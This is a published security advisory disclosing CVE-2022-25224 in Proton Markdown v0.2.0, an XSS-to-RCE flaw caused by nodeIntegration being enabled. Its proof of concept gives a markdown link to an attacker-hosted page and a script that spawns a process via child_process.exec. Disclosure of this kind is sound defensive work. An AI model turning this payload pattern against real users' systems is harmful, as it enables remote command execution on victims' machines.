 ```yaml
---
slug: advisories/lennon/
title: Proton v0.2.0 - XSS To RCE
authors: Oscar Uribe
writer: ouribe
codename: lennon
product: Proton v0.2.0
date: 2022-04-29 10:00 COT
cveid: CVE-2022-25224
severity: 7.1
description: Proton Markdown Version 0.2.0 - XSS Markdown Link To RCE
keywords: Fluid Attacks, Security, Vulnerabilities, Proton, XSS, RCE
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                     |
| --------------------- | --------------------------------------------------- |
| **Name**              | Proton v0.2.0 - XSS To RCE                          |
| **Code name**         | [Lennon](https://en.wikipedia.org/wiki/John_Lennon) |
| **Product**           | Proton Markdown                                     |
| **Affected versions** | Version 0.2.0                                       |
| **State**             | Public                                              |
| **Release date**      | 2022-05-17                                          |

## Vulnerability

|                       |                                                                                                      |
| --------------------- | ---------------------------------------------------------------------------------------------------- |
| **Kind**              | XSS to RCE                                                                                           |
| **Rule**              | [010. Stored cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/010) |
| **Remote**            | No                                                                                                   |
| **CVSSv3 Vector**     | CVSS:3.1/AV:L/AC:L/PR:N/UI:R/S:C/C:L/I:H/A:N                                                         |
| **CVSSv3 Base Score** | 7.1                                                                                                  |
| **Exploit available** | No                                                                                                   |
| **CVE ID(s)**         | [CVE-2022-25224](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25224)                      |

## Description

Proton **v0.2.0** allows an attacker to create a malicious
link inside a markdown file. When the victim clicks the link,
the application opens the site in the current frame allowing
an attacker to host JavaScript code in the malicious link in
order to trigger an XSS attack. The `nodeIntegration` configuration
is set to **on** which allows the webpage to use `NodeJs` features,
an attacker can leverage this to run OS commands.

## Proof of Concept

### Steps to reproduce

1. Create a markdown file with the following content.

   ```javascript
   [Click me!!!](http://192.168.1.67:8002/rce.html)
   ```

2. Host the `rce.html` file with the following
   content on a server controlled by the attacker.

   ```javascript
    <script>
        require('child_process').exec('calc');
    </script>
   ```

3. Send the markdown file to the victim.
   When the victim clicks the markdown link the site
   will be open inside electron and the JavaScript
   code will spawn a calculator.

### System Information

* Version: Proton v0.2.0.
* Operating System: Windows 10.0.19042 N/A Build 19042.
* Installer: Proton.Setup.0.2.0.exe

## Exploit

There is no exploit for the vulnerability but can be manually exploited.

## Mitigation

By 2022-05-17 there is not a patch resolving the issue.

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of Fluid Attacks.

## References

**Vendor page** <https://github.com/steventhanna/proton/>

## Timeline

<time-lapse
  discovered="2022-04-29"
  contacted="2022-04-29"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-05-17">
</time-lapse>
